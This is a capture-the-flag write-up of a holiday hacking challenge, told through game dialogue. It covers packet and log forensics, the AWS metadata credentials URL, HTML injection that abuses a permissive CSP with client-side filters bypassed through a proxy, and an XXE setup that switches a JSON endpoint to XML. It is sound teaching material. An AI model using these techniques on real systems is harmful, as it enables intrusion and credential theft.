              ░░            ░░▒▒▓▓▓▓▓▓▓▓                            ▓▓▓▓▓▓▒▒░░            ░░░░
                          ░░▒▒▓▓▓▓▓▓                                    ▓▓▒▒▒▒░░          ░░░░
                          ▒▒▓▓▓▓▓▓                                        ▓▓▓▓▒▒░░          ░░░░
          ░░            ▒▒▓▓▓▓▓▓                                            ▓▓▒▒░░░░        ░░░░▒▒
                      ░░▒▒▓▓▓▓░░                                            ░░▒▒▒▒░░░░      ░░░░▒▒
                      ░░▓▓▓▓▓▓                                                ▓▓▒▒░░░░      ░░░░▒▒
        ░░            ▒▒▓▓▓▓                                                    ▒▒░░░░        ░░▒▒▒▒
        ░░          ░░▓▓▓▓▓▓                                                    ▒▒▒▒░░░░      ░░▒▒▒▒
        ░░          ▒▒▓▓▓▓                                                        ▒▒░░░░      ░░▒▒▒▒
                    ▒▒▓▓▓▓                                                        ▒▒░░░░░░    ░░▒▒▒▒
      ░░          ░░▓▓▓▓▒▒                                                        ▒▒░░░░░░    ░░▒▒▒▒▓▓
      ░░          ▒▒▓▓▓▓                                                            ░░░░░░░░  ░░▒▒▒▒▓▓
      ░░          ▒▒▓▓▓▓                                                            ░░░░░░░░  ░░▒▒▒▒▓▓
      ░░          ▒▒▓▓▓▓               oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT             ░░░░░░░░  ░░▒▒▒▒▓▓
      ░░░░        ▒▒▓▓▓▓                                                            ░░░░  ░░░░░░▒▒▒▒▓▓
      ░░░░        ▒▒▓▓▓▓                                                            ░░    ░░░░▒▒▒▒▒▒▓▓
      ▒▒░░        ▒▒▓▓▓▓                                                            ░░    ░░░░▒▒▒▒▒▒▓▓
      ▒▒░░░░      ▒▒▓▓▓▓                                                            ░░    ░░░░▒▒▒▒▒▒▓▓
      ▓▓░░░░      ░░▓▓▓▓▒▒                                                        ░░      ░░░░▒▒▒▒▓▓▓▓
        ▒▒░░        ▒▒▓▓▓▓                                                        ░░    ░░░░▒▒▒▒▒▒▓▓
        ▒▒░░░░      ░░▓▓▓▓                                                        ░░    ░░░░▒▒▒▒▓▓▓▓
        ▓▓▒▒░░      ░░▒▒▓▓▓▓                                                    ░░      ░░▒▒▒▒▒▒▓▓▓▓
        ▓▓▒▒░░░░      ▒▒▒▒▓▓                                                          ░░░░▒▒▒▒▒▒▓▓▓▓
          ▒▒▒▒░░░░    ▒▒▒▒▒▒▒▒                                                        ░░▒▒▒▒▒▒▒▒▓▓
          ▓▓▒▒░░░░    ░░░░▒▒▒▒▓▓                                            ░░      ░░░░▒▒▒▒▒▒▓▓▓▓
            ▒▒▒▒░░░░    ░░▒▒▒▒▒▒▒▒                                        ░░      ░░░░▒▒▒▒▒▒▒▒▓▓
              ▓▓▒▒░░░░  ░░░░░░░░▒▒▓▓                                    ░░      ░░░░▒▒▒▒▒▒▓▓▓▓
              ▓▓▓▓▒▒░░░░░░░░░░░░░░▒▒▒▒▓▓                            ░░        ░░░░▒▒▒▒▒▒▓▓▓▓▓▓
                ▓▓▓▓▒▒░░░░░░░░░░░░░░░░▒▒▒▒▒▒▒▒                ░░░░          ░░░░▒▒▒▒▒▒▓▓▓▓▓▓
                  ▓▓▓▓▒▒░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░                ░░░░▒▒▒▒▒▒▓▓▓▓▓▓
                    ▓▓▒▒▒▒▒▒░░░░░░░░░░░░░░░░░░                        ░░░░▒▒▒▒▒▒▒▒▒▒▓▓▓▓
                      ▓▓▓▓▓▓▒▒▒▒░░░░░░░░░░░░░░░░              ░░░░░░░░▒▒▒▒▒▒▒▒▒▒▓▓▓▓▓▓
                        ▓▓▓▓▓▓▓▓▒▒▒▒▒▒▒▒░░░░░░░░░░░░░░░░░░░░░░░░▒▒▒▒▒▒▒▒▒▒▒▒▓▓▓▓▓▓▓▓
                          ██▓▓▓▓▓▓▓▓▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▓▓▓▓▓▓▓▓██
                              ██▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓██
                                ████▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓████
                                    ████████▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓████████
                                    ░░░░░░░░▓▓██████████████████░░░░░░░░

The answer is :code:`oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`.

This gives us our second ring, the Elfen Ring:

.. image:: /images/sans-christmas-challenge-2022/elfen_ring.png
    :alt: The Elfen Ring. It's a simple golden ring, like the one from Lord
        of the Rings, etched with elvish runes.
    :align: center

.. image:: /images/sans-christmas-challenge-2022/rippinproudboot.png
    :alt: Rippin Proudboot, same image as before.
    :align: center

*Rippin Proudboot says*

    How unexpected, you were actually able to help!

    Well, then I must apoligize for my dubious greeting.

    Us Flobbits can't help it sometimes, it's just in our nature.

    Right then, there are other Flobbits that need assistance further into the
    burrows.

    Thank you, and off you go.

Right beside Ripping, we see Grinchum:

.. image:: /images/sans-christmas-challenge-2022/smeagolmad2.png
    :alt: Grinchum is frowning a little bit more.
    :align: center

*Grinchum says*

    😖 *A second Precious is gone! Now we only have three.*

    🤨 **Why are you humanses nagging us? We are busy.** *grinchum..grinchum*

    **You want to know about us? If we tell the naggy human, will it go away?
    Fine...**

    🥺 **The jolly human and the elfses locked up the Preciouses, but I freed
    them all, and together we escaped.**

    **We fled, and we were so alone. We soon forgot the taste of Lembanh, the
    softness of snowflakes falling, even our name.**

    **And we only wanted to eat raw fish: nigiri, maki, or shashimi. But we
    most likes gnawing the whole, living fish, so juicy sweet.**

    **Then we saw the Sporcses, and they wanted my Preciouses all to
    themselves.**

    **And the humanses came, but they just want coinses for their silly hats.**

    **We only meant to protect you, Preciouses, from the naughty Elfses and
    Flobbitses and Sporcses, so we locked you away.**

    😏 **Now leave us alone, naggy human, we must find the two missing
    Preciouses.**

Recover the Web Ring
~~~~~~~~~~~~~~~~~~~~

We go keep going down and chance upon Tangle Coalbox. We learn a little bit
more on the nature of Flobbits and Sporcs:

.. image:: /images/sans-christmas-challenge-2022/tanglecoalbox.png
    :alt: Tangle Coalbox is a blue-skinned elf with a white T-Shirt, bright
        green pants, red- and white-striped socks, bright green pointy elf
        shoes, and an orange-brownish Christmas hat.
    :align: center

*Tangle Coalbox says*

    Hey there, Gumshoe. Tangle Coalbox here again.

    Morcel told you all about the Flobbits, right? Well, be careful ahead.

    Once thought to be the stuff of myths, the Sporcs truly are real, and as
    mean as they are in the stories.

    Once we gained the Flobbits' trust, they taught us all about the Sporcs.
    They, too, were part of the Great Schism.

    They were another people who split off from the colony of Frostians in Oz,
    though, they're more closely related to the trolls.

    The Flobbits, on the other hand, are more like the Munchkins. Like the
    Flobbits, the Sporcs appear when the rings are at risk.

    Digging far down into the ground causes them to emerge, too. Seems we
    created a perfect storm. Whoops!

    They're definitely up to no good, and trying to get the Rings for
    themselves. Tread lightly, friend, and good luck!

Naughty IP
----------

On our way to the Web Ring, we find Alabaster Snowball:

.. image:: /images/sans-christmas-challenge-2022/alabastersnowball.png
    :alt: Alabaster Snowball is an elf with purple skin, a dark green coat with
        white fur, light green pants, black- and white-striped socks, and
        green pointy elf shoes. He has a dark green Christmas hat on his head.
        He's wearing big, roung glasses, and has a white beard.
    :align: center

*Alabaster Snowball says*

    Hey there! I'm Alabaster Snowball

    And I have to say, I'm a bit distressed.

    I was working with the dwarves and their Boria mines, and I found some
    disturbing activity!

    Looking through `these artifacts </docs/sans-christmas-challenge-2022/boriaArtifacts.zip>`__,
    I think something naughty's going on.

    Can you please take a look and answer a few questions for me?

    First, we need to know where the attacker is coming from.

    If you haven't looked at Wireshark's Statistics menu, this might be a good
    time!

Let's take a look at these artifacts:

.. code-block:: console

    $ unzip boriaArtifacts.zip
    Archive:  boriaArtifacts.zip
      inflating: victim.pcap
      inflating: weberror.log

The PCAP file seems the perfect candidate to take a look at the Wireshark's
Statistics menu. Let's open it up and go to :code:`Statistics > IPv4 Statistics
> All Addresses`:

.. image:: /images/sans-christmas-challenge-2022/pcap_statistics.png
    :alt: The Wireshark's Statistics menu. There's a volumetry by IP address.
        The first IP address is 10.12.42.16 with a count of 36874 and a
        presence percentage of 100%. The second IP address is 18.222.86.32 with
        a count of 16603 and a presence percentage of 45,03%.
    :align: center

The first IP address, :code:`10.12.42.16`, is present in 100% of the packets.
This is most likely the IP address of the audited system. Therefore, the most
likely candidate for the attacker's IP address is :code:`18.222.86.32`.

Credential Mining
-----------------

.. image:: /images/sans-christmas-challenge-2022/alabastersnowball.png
    :alt: Alabaster Snowball, same image as before.
    :align: center

*Alabaster Snowball says*

    Aha, you found the naughty actor! Next, please look into the account brute
    force attack.

    You can focus on requests to /login.html~

We must find the first login used in the bruteforce attack. Let's create a
Wireshark filter that will focus on:

1. The attacker's IP address
2. THe HTTP :code:`POST` method
3. The URI :code:`/login.html`

.. code-block:: text

    ip.addr== 18.222.86.32 && http.request.method == "POST" && http.request.uri == "/login.html"

.. image:: /images/sans-christmas-challenge-2022/pcap_bruteforce_attack.png
    :alt: The Wireshark's interface with the result of our filtering. We can
        see that the first login tried by the attacker is alice.
    :align: center

The first login tried by the attacker is :code:`alice`.

404 FTW
-------

.. image:: /images/sans-christmas-challenge-2022/alabastersnowball.png
    :alt: Alabaster Snowball, same image as before.
    :align: center

*Alabaster Snowball says*

    Alice? I totally expected Eve! Well how about forced browsing? What's the
    first URL path they found that way?

    The misses will have HTTP status code 404 and, in this case, the successful
    guesses return 200.

Let's leave the PCAP file for now and take a look at the other artifact, the
web log. We'll :code:`grep` for the attacker's IP address and filter out
responses with an HTTP code :code:`404`:

.. code-block:: console
    :hl_lines: 12

    $ grep 18.222.86.32 weberror.log | grep -v 404 | tail -n 20
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:46:45] "POST /login.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:47:15] "POST /login.html HTTP/1.1" 302 -
    18.222.86.32 - - [05/Oct/2022 16:47:46] "GET /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:47:47] "GET /maintenance.html HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:17] "GET /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:27] "POST /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:32] "POST /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:37] "POST /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:42] "POST /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:47] "POST /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:52] "POST /proc HTTP/1.1" 200 -
    18.222.86.32 - - [05/Oct/2022 16:48:57] "POST /proc HTTP/1.1" 200 -

After the bruteforce attack, we can see that the first URL path found by the
attacker is :code:`/proc`.

IMDS, XXE, and Other Abbreviations
----------------------------------

.. image:: /images/sans-christmas-challenge-2022/alabastersnowball.png
    :alt: Alabaster Snowball, same image as before.
    :align: center

*Alabaster Snowball says*

    Great! Just one more challenge! It looks like they made the server pull
    credentials from IMDS. What URL was forced?

    AWS uses a specific IP address for IMDS lookups. Searching for that in the
    PCAP should get you there quickly.

Alabaster is talking about the `AWS metadata URL <https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html>`__,
which is http://169.254.169.254/latest/meta-data/. Let's filter for HTTP traffic
to IP address :code:`169.254.169.254` in Wireshark, with the following filter:

.. code-block:: text

    ip.addr == 169.254.169.254 && http

.. image:: /images/sans-christmas-challenge-2022/pcap_metadata.png
    :alt: The Wireshark's interface with the result of our filtering. We can
        see that the last request retrieves EC2 credentials.
    :align: center

The last request returns EC2 credentials. The request URL was
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance.

After answering the last question, Alabaster gives us some clues to solve the
puzzle that lies ahead:

.. image:: /images/sans-christmas-challenge-2022/alabastersnowball.png
    :alt: Alabaster Snowball, same image as before.
    :align: center

*Alabaster Snowball says*

    Fantastic! It seems simpler now that I've seen it once. Thanks for showing
    me!

    Hey, so maybe I can help you out a bit with the door to the mines.

    First, it'd be great to bring an Elvish keyboard, but if you can't find
    one, I'm sure other input will do.

    Instead, take a minute to read the HTML/JavaScript source and consider how
    the locks are processed.

    Next, take a look at the Content-Security-Policy header. That drives how
    certain content is handled.

    Lastly, remember that input sanitization might happen on either the client
    or server ends!

Open Boria Mine Door
--------------------

Before we can go on, we must open the door to the Boria Mine. Beside it stands
a Flobbit:

.. image:: /images/sans-christmas-challenge-2022/haltandybuck.png
    :alt: Hal Tandybuck is a Flobbit with light skin. He's wearing a red
        sweater with white loops, black pants and a green cape. He has hairy
        bare feet.
    :align: center

*Hal Tandybuck says*

    Oh hi, I'm Hal Tandybuck. And who might you be?

    I'm hanging out by the door to the mines here because, well, I haven't
    figured out the locks yet.

    It actually reminds me of this locked crate I had three years ago...

    I doubt we'll get much in the way of debug output.

    Think you can help me get through?

Let's take a look at this Boria Mine door:

.. image:: /images/sans-christmas-challenge-2022/boria_mine_instructions.png
    :alt: The Boria Mine instructions, description below.
    :align: center

So there are several cells on the door, and to open a cell, you must connect
the color sensors on each side by entering the correct charaters. It seems that
elvish script works best, but we don't have an elvish keybaord. Let's see our
cells:

.. image:: /images/sans-christmas-challenge-2022/boria_mine_cells.png
    :alt: The Boria Mine cells. There are six of them, connected with various
        color sensors. The first ones are white, then blue, then there are some
        cells with multiple color sensors (white and blue; red and blue; red,
        green, and blue). Sorry, it's a super graphic challenge. You can skip
        ahead.
    :align: center

Alright, I don't know if I solved this challenge in the intended way, but I
found a way that works:

1. The :code:`Content-Security-Policy` of the first cell is pretty permisive.

2. We can use the first cell to generate arbitrary HTML that will be rendered
   as images.

3. One can include images in every cell by submitting an :code:`<img src=x>`
   tag. The catch is that the image must be hosted on the KringleCon domain
   (because of the restrictions in the CSP header). What's more, cells #4 and
   #5 have client-side filtering on the values we send. We can use an
   intercepting proxy, such as Burp, to send any value we want.

So, the idea is to use the first cell to generate arbitrary block of colors
using CSS and the Unicode character `U+2588 <https://www.fileformat.info/info/unicode/char/2588/index.htm>`__.

Here's how I solved each cells:

Cell 1
......  

You can simply submit this HTML code to the first cell:

.. code-block:: html

    <div style="font-size:50px">████████████</div>

Cell 2
......  

You can simply submit this HTML code to the second cell:

.. code-block:: html

    <div style="font-size:300px">████</div>

Cell 3
......  

It gets tricky from here. First, you must generate the wanted image in the
first cell with this HTML code:

.. code-block:: html

    <div style="font-size:100px;color:blue">████████████</div>

This generates the following image:

.. image:: /images/sans-christmas-challenge-2022/24398193ed2bb291da7235b12211d8d3d655f5fc.png
    :alt: A black square with a blue rectangle in the middle.
    :align: center

You can send submit this HTML code to the third cell:

.. code-block:: html

    <img src="/images/24398193ed2bb291da7235b12211d8d3d655f5fc.png"/>


Cell 4
......  

You can submit this HTML code to the fourth cell:

.. code-block:: html

    <div style="font-size:50px">████████████</div> <div style="font-size:250px;color:blue">██████████████████████████████████████</div>

Remember to send the data via an intercepting proxy to bypass the client-side
filtering.

Cell 5
......  

First, you must generate the wanted image in the first cell with this HTML
code:

.. code-block:: html

    <div style="font-size:40px;color:red">████████████████</div>
    <div style="font-size:90px;color:red;margin-top:-20px">█</div>
    <div style="font-size:60px;color:blue;margin-left:10px;margin-top:-10px">█████████</div>
    <div style="font-size:90px;color:blue;margin-left:150px;margin-top:-150px">█</div>

This generates the following image:

.. image:: /images/sans-christmas-challenge-2022/10dc476eb50d6f2661877bf5eeb6726a88c27cc5.png
    :alt: A black square with a red and a blue L-shapes.
    :align: center

You can send submit this HTML code to the fifth cell:

.. code-block:: html

    <img src="/images/10dc476eb50d6f2661877bf5eeb6726a88c27cc5.png"/>

Remember to send the data via an intercepting proxy to bypass the client-side
filtering.

Cell 6
......  

First, you must generate the wanted image in the first cell with this HTML
code:

.. code-block:: html

    <div style="font-size:40px;color:#00ff00">████████████</div>
    <div style="font-size:40px;color:red">████████</div> <div style="font-size:60px;color:red;margin-left:100px;margin-top:-55px">███</div>
    <div style="font-size:60px;color:blue;margin-top:-15px">█████████</div>

This generates the following image:

.. image:: /images/sans-christmas-challenge-2022/7e9a0ae3e494d40d2e4e0343e6dba9222e21afa1.png
    :alt: A black square with a green, a red, and a blue rectangles.
    :align: center

You can send submit this HTML code to the sixth cell:

.. code-block:: html

    <img src="/images/7e9a0ae3e494d40d2e4e0343e6dba9222e21afa1.png"/>

Here's the final result:

.. image:: /images/sans-christmas-challenge-2022/boria_mine_solved.png
    :alt: The Boria Mine cells are all unlocked.
    :align: center

.. image:: /images/sans-christmas-challenge-2022/haltandybuck.png
    :alt: Hal Tandybuck, same image as before.
    :align: center

*Hal Tandybuck says*

    Great! Thanks so much for your help!

    When you get to the fountain inside, there are some things you should
    consider.

    First, it might be helpful to focus on Glamtariel's CAPITALIZED words.

    If you finish those locks, I might just have another hint for you!

    Wha - what?? You opened all the locks?! Well then...

    Did you see the nearby terminal with evidence of an XXE attack?

    Maybe take a close look at that kind of thing.

Glamtariel's Fountain
---------------------

After opening the Boria Mine door, we get to the fountain, but a sporc is there
to meet us.

.. image:: /images/sans-christmas-challenge-2022/akbowl.png
    :alt: Akbowl is a sporc wearing a red toga, black snow shoes with white
        fur, a metal breastplate, and white fur on the shoulders.
    :align: center

*Akbowl says*

    Huh - what? Why do you disturb Akbowl?

    I'm trying to get the ring in here for the Sporc Chief.

    Unlucky for me it's lost in this water basin thing.

    You will *not* get it out before Akbowl!

Let's get the ring before him. To do so, we have to gaze into `Glamtariel's
Galadriel fountain <https://glamtarielsfountain.com/>`__. We must find the
filename of the ring she presents to us.

As usual, there's always one task during the Holiday Hack Challenge that I
spend waaaay too much time on. This year, it's the fountain. Let me explain
how it works:

.. image:: /images/sans-christmas-challenge-2022/fountain_website.png
    :alt: The web interface of Glamtariel's fountain. We see Glamtariel, her
        fountain, and four small images of Santa, a candy cane, an ince cube,
        and an elf. Glamtariel tells us "Welcome to Glamtariel's Fountain! I
        see you have your entrance ticket so we've given you a snack, in case
        you get hungry. I can see there's a lot on your mind. Share these with
        us and enjoy your stay!". The fountain says "I know there is something
        Glamtariel thinks about a lot but never discusses. Perhaps if you share
        things with her, she'd share with the both of us. I may be of some help
        also."
    :align: center

Basically, we drag-and-drop images on Princess Glamtariel or on her fountain,
and they will give us information about them. I will give their answer for each
image:

- Santa:
    - When dropped on Glamtariel:
        - Glamtariel: "I don't know why anyone would ever ask me to **TAMPER**
          with the cookie recipe. I know just how Kringle likes them."
        - The fountain: "Glamtariel likes to keep Kringle happy so that he and
          the elves will visit often."
    - When dropped on the fountain:
        - The fountain: "Kringle really dislikes it if anyone tries to
          **TAMPER** with the cookie recipe Glamtariel uses."
        - Glamtariel: "Kringle really likes the cookies here so I always make
          them the same way."
- The candy cane:
    - When dropped on Glamtariel:
        - Glamtariel: "Mmmmm, I love Kringlish Delight!"
        - The fountain: "I think Glamtariel is thinking of a different story."
    - When dropped on the fountain:
        - The fountain: "Zany Zonka makes the best of these!"
        - Glamtariel: "I think fountain gets confused about things sometimes."
- The ice cube:
    - When dropped on Glamtariel:
        - Glamtariel: "No worries, it doesn't get nearly as cold here as it did
          in Melgarexa. Brrrr, that was one frigid trip."
        - The fountain: "I think it's a perfect temperature here."
    - When dropped on the fountain:
        - The fountain: "Hey, its Chilly Icycube, my old friend! I remember
          when they were but a small drop in the Dimrofel."
        - Glamtariel: "It's always great when old friends visit!"
- The elf:
    - When dropped on Glamtariel:
        - Glamtariel: "I helped the elves to create the **PATH** here to make
          sure that only those invited can find their way here."
        - The fountain: "I wish the elves visited more often."
    - When dropped on the fountain:
        - The fountain: "The elves do a great job making **PATH** s which are easy
          to follow once you see them."
        - Glamtariel: "I don't get away as much as I used to. I think I have
          one last trip in me which I've probably put off for far too long."

When we've asked about every element, the four images change:

.. image:: /images/sans-christmas-challenge-2022/fountain_website_2.png
    :alt: The web interface of Glamtariel's fountain. We see Glamtariel, her
        fountain, and four small images of a ring, an igloo, a sailing ship,
        and a five-pointed star.
    :align: center

Here's what we get when we drop them:

- The ring:
    - When dropped on Glamtariel:
        - Glamtariel: "I do have a small ring collection, including one of
          these."
        - The fountain: "I think Glamtariel likes rings a little more than she
          lets on sometimes."
    - When dropped on the fountain (an evil eye appears, we must click on it to make it go away):
        - The fountain: "Between Glamtariel and Kringle, many who have tried to
          find the **PATH** here uninvited have ended up very dis **APP** ointed.
          Please click away that ominous eye!"
        - Glamtariel: "Careful with the fountain! I know what you were
          wondering about there. It's no cause for concern. The **PATH** here
          is closed!"
- The igloo:
    - When dropped on Glamtariel:
        - Glamtariel: "It's understandable to wonder about home when one is
          adventuring."
        - The fountain: "I think I'd worry too much if I ever left this place."
    - When dropped on the fountain:
        - The fountain: "What's this? Fake tickets to get in here? Snacks that
          don't taste right? How could that be?"
        - Glamtariel: "The fountain shows many things, some more helpful than
          others. It can definitely be a poor guide for decisions sometimes."
- The sailing ship:
    - When dropped on Glamtariel:
        - Glamtariel: "These ice boat things would have been helpful back in
          the day. I still remember when Boregoth stole the Milsarils, very sad
          times."
        - The fountain: "I'm glad I wasn't around for any of the early age
          scuffles. I shudder just thinking about the stories."
    - When dropped on the fountain:
        - The fountain: "I pretty much stick to just one **TYPE** of language,
          it's a lot easier to share things that way."
        - Glamtariel: "Did you know that I speak in many **TYPE** s of
          languages?  For simplicity, I usually only communicate with this one
          though."
- The star:
    - When dropped on Glamtariel or the fountain (same behavior):
        - Glamtariel: "O Frostybreath Kelthonial, shiny stars grace the night
          from heavens on high!"
        - The fountain: "Up and far many look away from glaciers cold, To
          Phenhelos they sing here in Kringle's realm!"

.. image:: /images/sans-christmas-challenge-2022/fountain_website_3.png
    :alt: The web interface of Glamtariel's fountain. We see Glamtariel, her
        fountain, and four small images of a red ring, a silver ring, and two
        blue rings.
    :align: center

Here's what we get when we drop them:

- The blue rings (same behavior for both):
    - When dropped on Glamtariel:
        - Glamtariel: "I love these fancy blue rings! You can see I have two of
          them. Not magical or anything, just really pretty."
        - The fountain: "If asked, Glamtariel definitely tries to insist that
          the blue ones are her favorites. I'm not so sure though."
    - When dropped on the fountain:
        - The fountain: "Glamtariel can be pretty tight lipped about some
          things."
        - Glamtariel: "I like to keep track of all my rings using a **SIMPLE
          FORMAT**, although I usually don't like to discuss such things."
- The silver ring:
    - When dropped on Glamtariel:
        - Glamtariel: "Wow!, what a beautiful silver ring! I don't have one of
          these. I keep a list of all my rings in my **RINGLIST** file. Wait a
          minute! Uh, promise me you won't tell anyone."
        - The fountain: "I never heard Glamtariel mention a **RINGLIST** file
          before. If only there were a way to get a peek at that."
    - When dropped on the fountain:
        - The fountain: "Glamtariel may not have one of these silver rings in
          her collection, but I've overheard her talk about how much she'd like
          one someday."
        - Glamtariel: "You know what one of my favorite songs is? Silver rings,
          silver rings ...."
- The red ring:
    - When dropped on Glamtariel:
        - Glamtariel: "Ah, the fiery red ring! I'm definitely proud to have one
          of them in my collection."
        - The fountain: "I think Glamtariel might like the red ring just as
          much as the blue ones, perhaps even a little more."
    - When dropped on the fountain:
        - The fountain: "You know, I've heard Glamtariel talk in her sleep
          about rings using a different **TYPE** of language. She may be more
          responsive about them if you ask differently."
        - Glamtariel: "Hmmm, you seem awfully interested in these rings. Are
          you looking for something? I know I've heard through the ice cracks
          that Kringle is missing a special one."

And that's it. After that, the messages loop and nothing changes.

Let's recap. You might have noticed that some words are in all caps. If you
remember Hal Tandibuck's clue, these words have some importance. These words
are:

- :code:`TAMPER`: this actually means we should **not** tamper with the cookies
  (I spent several hours trying to but getting nowhere...)
- :code:`PATH`: this probably means that we're going to need to guess the path
  to... something?
- :code:`APP`: this word is used with :code:`PATH`, so maybe :code:`APP` is a
  part of the path we must find?
- :code:`TYPE`: Glamtariel says she understands another type of language, more
  on that later.
- :code:`RINGLIST`: Glamtariel keeps a list of her rings in a file, this must
  be what we must find a path to.
- :code:`SIMPLE FORMAT`: this list of rings is kept in a simple format, most
  likely in a :code:`.txt` file.

We also learn that Glamtariel pretends her favorite rings are the blue ones,
but would very much like to add a silver ring to her collection.

Now, let's take a look under the hood. What "language" are we using to talk to
Glamtariel and her fountain? Here's the request we sent when we dropped the
silver ring on Glamtariel:

.. code-block:: http

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=99e85c94-c24e-4916-8214-996b143317b5.EN8o8Hzkc6bGjlB7yO10QNWkXwg
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/json
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    X-Grinchum: ImI0NWVlYzE1MTMxMGU5MzRmZGI0NDlkNDQxNjQyMzA2ZjkzMTk3NDYi.Y7hu8g.S-ougqTjKWzwSN2US_Z9jmmBca8
    Content-Length: 52
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    {"imgDrop":"img1","who":"princess","reqType":"json"}

.. code-block:: http

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Fri, 06 Jan 2023 19:01:50 GMT
    Content-Type: application/json
    Content-Length: 333
    Set-Cookie: MiniLembanh=99e85c94-c24e-4916-8214-996b143317b5.EN8o8Hzkc6bGjlB7yO10QNWkXwg; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "Wow!, what a beautiful silver ring! I don't have one of these. I keep a list of all my rings in my RINGLIST file. Wait a minute! Uh, promise me you won't tell anyone.^I never heard Glamtariel mention a RINGLIST file before. If only there were a way to get a peek at that.",
      "droppedOn": "none",
      "visit": "none"
    }

We're using JSON, but apparently Galamtriel supports another type of language.
It would be interesting if it was XML, because we could `exploit an XXE
vulnerability against this JSON endpoint <https://www.netspi.com/blog/technical/web-application-penetration-testing/playing-content-type-xxe-json-endpoints/>`__.
Let's `convert our JSON to XML <https://www.convertjson.com/json-to-xml.htm>`__
and see if it works. We must also make sure to change the :code:`reqType`
parameter from :code:`json` to :code:`xml`, as well as modifying the
:code:`Content-Type` header:

.. code-block:: http
    :hl_lines: 8 22

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=5187b7cc-eaa1-4945-8e16-794290a2dea9.jXW5lp2QZAQt5_9jSvnHEmvi4lI
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/json
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: ImQ3MTM1MWVhNjY2MjgyNzI4YmRjNGJjYWQ5M2MwNmU3MDZhZTJhZmIi.Y7h6Bw.AOMSA0YJKPm1PIU5Tql7hdYfqFk
    Content-Length: 132
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <root>
      <imgDrop>img1</imgDrop>
      <who>princess</who>
      <reqType>xml</reqType>
    </root>

.. code-block:: http

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Fri, 06 Jan 2023 19:45:07 GMT
    Content-Type: application/json
    Content-Length: 193
    Set-Cookie: MiniLembanh=5187b7cc-eaa1-4945-8e16-794290a2dea9.jXW5lp2QZAQt5_9jSvnHEmvi4lI; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
      "droppedOn": "none",
      "visit": "none"
    }

Well, it seems to work, great! Now maybe we can try to exploit an XXE. I first
tried to really exploit the vulnerability to get an error with a verbose
message, or even try a blind XXE (with domain name resolution, or HTTPS
connect back to get a malicious DTD, that sort of thing). But the XXE is
simulated inside the application.

Anyway, we want to leak the ring list file. By taking a look at the requests
made to the website, we see that the different images, including the ones
depicting rings, are stored in :code:`/static/images/`. But we need to find
the web root on the file system. Since we had the clue with the word
:code:`APP`, we can try :code:`/app` as a webroot. Finally, the file name.
